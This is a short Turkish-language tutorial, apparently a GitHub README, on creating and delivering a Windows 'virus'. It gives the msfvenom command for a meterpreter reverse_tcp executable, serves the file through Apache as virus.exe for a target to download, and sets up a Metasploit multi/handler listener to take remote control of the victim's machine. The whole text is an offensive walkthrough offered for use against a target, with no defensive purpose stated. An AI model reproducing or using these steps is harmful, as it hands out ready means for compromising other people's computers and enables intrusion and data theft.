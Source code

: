 ## Selam Ben linax Ve Bugun Sizlere Nasil Virus(payload) Olusturulucagini Anlaticam.
## Oncelikle Terminali Aciyoruz Ve msfvenom Ile Komutumuzu Yaziyoruz.
## msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local Ipniz> LPORT=4444 -f exe > /var/www/html/virus.exe 
  
![Screenshot_2022-07-17_06_44_33](https://user-images.githubusercontent.com/100614268/179394888-468d8bdc-a63e-4727-9d5c-c055d0379a82.png)

## Burada Bilgisayara meterpreter Icin Bir reverse_tcp Olusturmasini Istiyoruz Ve Onu /var/www/html/virus.exe Icerisine Yolluyoruz.
## Daha Sonra Bunu Bir Servicede Aktif Etmemiz Gerek. Aktif Etmeden De Yapilir Ama Hedef Kisiye Daha Rahat Ulasabilmesi Icin Servicelerimizi Acicaz. Bunun Icin Terminale Sirasiyla Yaziyoruz.

## sudo service apache2 start
## sudo service apache2 status
  
![Screenshot_2022-07-17_06_45_23](https://user-images.githubusercontent.com/100614268/179394987-3e5f2793-89de-411e-b523-4f39b78a551e.png)

## Evet Bunun Anlami Artik Bizim Local IP mizi Bir Cihaz Web Tarayicisina Girerse Direk virus.exe yi Download Isticek. Bu Sayede Sadece Hedef Bilgisayara Kendi Local Ipnizi Girerek Bilgisayara payloadi Yerlestire Bilirsiniz. Peki Dosyayi Windowsa Atip Bir Yolla Calistirdiniz Diyelim. Devaminda Ne Yapmamiz Gerek?
  
![Screenshot_2022-07-17_06_45_59](https://user-images.githubusercontent.com/100614268/179395284-d205fc88-c31f-47e7-bf03-d654423a2bf5.png)

## Terminale msfconsole Yaziyoruz. Daha Sonra use multi/handler Yaziyoruz. Sonra show options Yaziyoruz Ve LHOSTU  set lhost 192.168.x.x  Seklinde Yazip local Ipnizi Dinleme Araci Yapiyorsunuz. Ve Artik Hazirsiniz. 
![Screenshot_2022-07-17_06_47_02](https://user-images.githubusercontent.com/100614268/179395205-91bc1d94-6ca9-4c6f-9bb7-e502ade40310.png)

## exploit yada run Komutlarini Girdikten Sonra Windowsa Erisirsiniz. help Yazarak Devam Ede Bilirsiniz.
